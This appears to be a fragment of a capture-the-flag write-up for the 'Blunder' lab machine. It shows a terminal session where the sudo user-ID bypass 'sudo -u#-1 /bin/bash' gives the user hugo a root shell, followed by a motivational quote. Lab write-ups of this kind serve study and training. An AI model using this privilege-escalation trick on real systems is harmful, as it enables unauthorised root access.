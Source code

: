 ```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
root@blunder:/home/hugo# id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
root@blunder:/home/hugo#
```

# Trophy

>[!quote]
>Persistence is very important. You should not give up unless you are forced to give up.
>
>\- Elon Musk

